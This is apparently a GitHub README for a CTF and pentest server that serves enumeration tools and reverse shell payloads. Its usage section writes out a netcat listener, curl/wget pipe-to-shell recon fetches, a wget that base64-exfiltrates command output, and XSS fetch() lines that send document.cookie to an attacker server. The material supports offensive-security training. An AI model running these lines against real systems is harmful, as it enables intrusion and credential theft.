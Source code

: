 # toolbox

Currently toolbox provides functionality similar to `python3 -m http.server`, it will:

- Serve the files within the provided directory
- Serve common CTF tools, such as:
  - [linpeas / winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git) - Enumeration scripts for priv esc
  - [static-binaries](https://github.com/andrew-d/static-binaries) - compiled tools such as ncat/socat/nmap/etc
  - [SharpCollection](https://github.com/Flangvik/SharpCollection) - Nightly builds of common C# offensive tools
- Serve payload/shell generation

## Installing

```
git clone https://github.com/AlanFoster/toolbox.git
```

Install the dependencies:
```
cd toolbox
./install.sh
```

Verify it works:

```
python3 toolbox.py --help
```

## Using Docker


Build the image:

```
docker build -t toolbox .
```

Example usage:

```
docker run -it --rm -p 8000:8000 toolbox /bin/sh -c "python toolbox.py serve -p 8000 ."
```

## Running

### Server

The server will:
- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

Usage:

```
# Remember to follow the installing steps first - i.e. with install.sh above
python3 toolbox.py serve -p 8000 .
```

You can now visit the running server at `http://localhost:8000`

![Example of the running server](./images/server.png)

By default the server supports the following files:

- [Payloads](toolbox/server/templates/modules)
- [Common tools](toolbox/config.json)

### Workflows

#### Generating payloads

The home page will show all available payloads and can be accessed on the target machine.

For example using `shell.sh`:

- `/shells/shell.sh` - running on default host/port 127.0.0.1 4444
- `/shells/shell.sh/4444` - custom port
- `/shells/shell.sh/127.0.0.1/4444` - custom host and port

On the host machine you create a listener as normal:

```
rlwrap nc -lnvp 4444
```

#### Uploading files

If you wish to upload files to your host machine from a target you can generate temporary one time upload tokens. Note that this functionality requires that the server be started with a secure `--password` flag, otherwise it is disabled from the interface:

```
python3 toolbox.py serve -p 8000 --password 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824 .
```

When the browser prompts for authentication only the password is required:

![Upload file name](./images/upload_file.png)
![Upload file token authentication](./images/upload_file_token_authentication.png)
![Upload file token](./images/upload_file_token.png)

After running the generated command on the target machine the file will be accessible on the host machine. Note that this token will be invalidated after use, and cannot be reused:

![Upload file command on target](./images/upload_file_target.png)

#### Remote target recon

The `recon.sh` script is great for use in the scenario of having initial remote code execution and you want to upgrade to a working shell. This script will log information about the remote target which you can then use to select the best reverse shell payload.

First run the `recon.sh` script on the target machine with either `curl` or `wget`:

```
curl http://localhost:8000/shells/recon.sh | sh
wget http://localhost:8000/shells/recon.sh -O- | sh
```

The server console will now log information about the remote target. In the below scenario we can see that the target is running as `root`, and has both `nc` and `python3` available - which is enough information to decide on a reverse shell payload:

![Example of the extracting data from the target](./images/recon.png)

Note that this remote logging functionality is implemented by making HTTP requests to the server with a base path of `/debug`. The `value` query string parameter will additionally be base64 decoded and highlighted in green. This means you can easily extract arbitrary information from the host machine, examples:

```bash
wget "http://localhost:8000/debug/"
wget "http://localhost:8000/debug/hello_world"
wget "http://localhost:8000/debug/tools/python/?value=$(python --version 2>&1 | base64 | tr -d \\n | sed -e 's/+/%2B/' -e 's#/#%2F#')" -O /dev/null
```

The `/debug` endpoint can be great for validating XSS payloads too. For instance within JavaScript you could use the following to track important parts of your XSS payload:

```javascript
fetch("http://server_ip:8000/debug/xss_code_started");
fetch(`http://server_ip:8000/debug/extracted_cookies?value=${encodeURI(btoa(document.cookie))}`);
```

## Contributing

### Updating requirements.txt

Updating `pipenv` currently requires a manual change to `requirements.txt`.
This file will not contain dev-dependencies and is meant for end-users.

```
pipenv requirements > requirements.txt
```

### Adding additional tools

You can add additional third party projects by creating a new Git submodule:

```
git submodule add https://github.com/owner/project_name third_party/project_name
```

And updating the associated [configuration file](toolbox/config.json) to include the new tool.

### Running tests

You must first install the developer dependencies:

```shell
pipenv install --dev
```

Enter a Python environment:

```shell
pipenv shell
```

Running all tests:

```shell
pytest
```

To run only one set of tests add the focus marker:

```python
@pytest.mark.focus
def test_some_method():
    assert 1 == 1
```

Run with:

```shell
pytest -m focus
```

To enter an interactive debugging environment place either of the two lines into your code:

```python
breakpoint()
import pdb; pdb.set_trace()
```

Updating third party dependencies:

```
git submodule update --remote
```

## Planned

- Configure setup.py to install only the required source code + data files + licenses
- Automated github actions to ensure the latest third party libraries are downloaded
- Potentially add exploits with configurable payloads
- Shell listener support, instead of `rlwrap nc`
- Generate one time upload tokens from the command line directly, with/without the server running
- Add additional files:
  - Static pspy64
  - Static Docker client
